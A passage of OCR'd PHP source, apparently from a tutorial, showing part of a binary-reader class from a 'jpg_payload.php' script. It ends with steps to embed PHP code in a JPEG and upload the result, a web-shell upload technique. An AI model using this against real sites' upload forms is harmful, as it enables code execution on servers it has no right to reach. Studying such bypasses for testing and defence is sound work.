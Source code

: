         public function __construct($filename, $order = false, $fromString = false) {
            $this->binData = '';
            $this->order = $order;
            if(!$fromString) {
                if(!file_exists($filename) || !is_file($filename))
                    die('File not exists ['.$filename.']');
                $this->binData = file_get_contents($filename);
            } else {
                $this->binData = $filename;
            }
            $this->size = strlen($this->binData);
        }

        public function seek() {
            return ($this->size - strlen($this->binData));
        }

        public function skip($skip) {
            $this->binData = substr($this->binData, $skip);
        }

        public function readByte() {
            if($this->eof()) {
                die('End Of File');
            }
            $byte = substr($this->binData, 0, 1);
            $this->binData = substr($this->binData, 1);
            return ord($byte);
        }

        public function readShort() {
            if(strlen($this->binData) < 2) {
                die('End Of File');
            }
            $short = substr($this->binData, 0, 2);
            $this->binData = substr($this->binData, 2);
            if($this->order) {
                $short = (ord($short[1]) << 8) + ord($short[0]);
            } else {
                $short = (ord($short[0]) << 8) + ord($short[1]);
            }
            return $short;
        }

        public function eof() {
            return !$this->binData||(strlen($this->binData) === 0);
        }
    }
?>

Use script to process 1.jpg, command php jpg_payload.php 1.jpg

Open it with a hex editor, and you can see the inserted php code. Upload the generated payload_1.jpg.
